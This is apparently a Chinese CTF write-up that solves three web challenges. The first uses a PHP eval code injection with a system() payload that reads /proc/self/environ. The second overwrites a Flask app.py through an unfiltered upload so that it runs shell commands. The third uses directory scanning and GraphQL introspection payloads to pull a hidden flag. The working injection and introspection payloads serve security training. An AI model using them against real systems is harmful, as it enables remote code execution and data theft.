










[buuctf] write up 12
===

## [WEB] [DASCTF Oct X 吉林工师 欢迎来到魔法世界～] 迷路的魔法少女

### 题解

开门源码:

```php
<?php
highlight_file('index.php');

extract($_GET);
// 将 $_GET 展开
error_reporting(0);
function String2Array($data)
{
    if($data == '') return array();
    @eval("\$array = $data;");
    return $array;
}


if(is_array($attrid) && is_array($attrvalue))
{
        $attrstr .= 'array(';
        $attrids = count($attrid);
        for($i=0; $i<$attrids; $i++)
        {
            $attrstr .= '"'.intval($attrid[$i]).'"=>'.'"'.$attrvalue[$i].'"';
            if($i < $attrids-1)
            {
                $attrstr .= ',';
            }
        }
        $attrstr .= ');';
}
String2Array($attrstr); 
```

本地复现了一下这段逻辑, 大意是手工构造一个数组, 注入点在于这里:

```php
@eval("\$array = $data;");
```

这里没有严格过滤, 是一处显然的命令注入, 在本地控制 `$_GET['attrvalue']` = `array('1");system("whoami');`, 则得到:



说明命令注入成功了; 

接下来只要调整 `whoami` 为任意的 bash 指令即可;




拿到 **假 flag**; 注意这里 $FLAG 是一个变量传入的, 说明 flag 很有可能就在环境变量里:

最终 payload:

```
(GET) GET /?attrid[]=1&attrvalue[]=1");system("cat+/proc/self/environ&attrstr= 
```

> 或者读 `/etc/timezone` 也可以;



## [WEB] [NewStarCTF 2023 公开赛道] flask disk

> 题目信息: 服务在 5000 端口;

### 题解

一个上传文件的网站:



注意上传之后可以在这里看见, 并且和 `app.py` 在同一个目录下, 对上传文件也没有过滤, 那么我们是不是可以直接传一个 `app.py` 把原文件覆盖掉呢?

```python
from flask import Flask, request, jsonify, make_response
import json
import datetime
import os

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    result = os.popen("ls /").read()
    return result

if __name__ == '__main__':
    # 端口和 hint 一致;
    app.run(host='0.0.0.0', port=5000, debug=True)
```

注意一下 flask 相关的配置别出错, 之后传上去重新访问:


成功, 之后调整 payload 为 `cat /flag` 即可;



## [WEB] [NewStarCTF 公开赛赛道] ezAPI

### 题解

一个数据查询界面, fuzz 了一下发现只有数字可用: `0123456789`;

注意到查询不存在的 id 例如 `id = 0` 会爆出错误:


#### 目录爆破

进一步又猜了一下后台的正则, 尝试绕了一下, 但是没成功, 可能攻击点不在这里; 扫一下目录:


扫到一个后台文件:

> `.DS_Store` 是 macOS 系统中用于保存文件夹自定义属性 (如图标位置、背景颜色等) 的隐藏文件。如果开发者在部署代码时未删除 `.DS_Store` 文件, 可能会导致敏感信息泄露: 例如目录结构、备份文件或源代码。

用这个[Dumpall](https://github.com/0xHJK/dumpall)来利用:



可惜还是没什么收获, 结果尝试的时候发现 dirsearch 已经扫到了源码:

下载之后打开:

```php
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8" />
    <title>Search Page</title>
    <link rel="stylesheet" type="text/css" href="css/style.css" tppabs="css/style.css" />
    <style>
        body {
            height: 100%;
            background: #16a085;
            overflow: hidden;
        }

        canvas {
            z-index: -1;
            position: absolute;
        }
    </style>
    <script src="js/jquery.js"></script>
    <script src="js/verificationNumbers.js" tppabs="js/verificationNumbers.js"></script>
    <script src="js/Particleground.js" tppabs="js/Particleground.js"></script>
    <script>
        $(document).ready(function() {
            $('body').particleground({
                dotColor: '#5cbdaa',
                lineColor: '#5cbdaa'
            });
        });ß
    </script>
</head>
<!--unremove DEBUG function, please delete it-->
<body>
    <dl class="admin_login">
        <dt>
            <font color="white"><strong>Search Page Beta</strong></font>
        </dt>
        <form action="index.php" method="post">
            <dd class="user_icon">
                <input type="text" name="id" placeholder="用户ID" class="login_txtbx" />
            </dd>
            <dd>
                <input type="submit" value="Search" class="submit_btn" />
            </dd>
        </form><br>
        <center>
            <font size="4px" color="white">
                <?php
                error_reporting(0);
                $id = $_POST['id'];
                function waf($str)
                {
                    if (!is_numeric($str) || preg_replace("/[0-9]/", "", $str) !== "") {
                        return False;
                    } else {
                        return True;
                    }
                }

                function send($data)
                {
                    $options = array(
                        'http' => array(
                            'method' => 'POST',
                            'header' => 'Content-type: application/json',
                            'content' => $data,
                            'timeout' => 10 * 60
                        )
                    );
                    $context = stream_context_create($options);
                    $result = file_get_contents("http://graphql:8080/v1/graphql", false, $context);
                    return $result;
                }

                if (isset($id)) {
                    if (waf($id)) {
                        isset($_POST['data']) ? $data = $_POST['data'] : $data = '{"query":"query{\nusers_user_by_pk(id:' . $id . ') {\nname\n}\n}\n", "variables":null}';
                        $res = json_decode(send($data));
                        if ($res->data->users_user_by_pk->name !== NULL) {
                            echo "ID: " . $id . "<br>Name: " . $res->data->users_user_by_pk->name;
                        } else {
                            echo "<b>Can't found it!</b><br><br>DEBUG: ";
                            var_dump($res->data);
                        }
                    } else {
                        die("<b>Hacker! Only Number!</b>");
                    }
                } else {
                    die("<b>No Data?</b>");
                }
                ?>
            </font>
        </center>
    </dl>
</body>

</html>
```

审计一下代码会发现, 这个查询服务实际上是挂在另一个服务上的; 根据内容, 伪造一个 `data` 试试:

```
(POST)
id=1&data={"query":"query{users_user_by_pk(id:1) {name}}","variables":null}
```



验证成功, 返回数据实际上是 id 为 2 的查询结果;

接下来分析一下这个查询语句, 搜索资料后发现是一处 GraphQL:

#### GraphQL

GraphQL 的典型查询:

```GraphQL
query{
    person(id:1,personID:1){
        id
        birthYear
    }
}
```

内省查询: 这个查询会返回可用的查询类型

```GraphQL
{
  __schema {
    types {
      name
    }
  }
}
```

两个常用的 payload:

```GraphQL
query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

```GraphQL
query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description args{...InputValue}onOperation onFragment onField}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name}}}}
```



爆出了结构, 调整 payload:



找到 flag:

```
(POST)
id=0&data={"query":"query{\nffffllllaaagggg_1n_h3r3_flag{\nflag\n}\n}\n","variables":null}
```



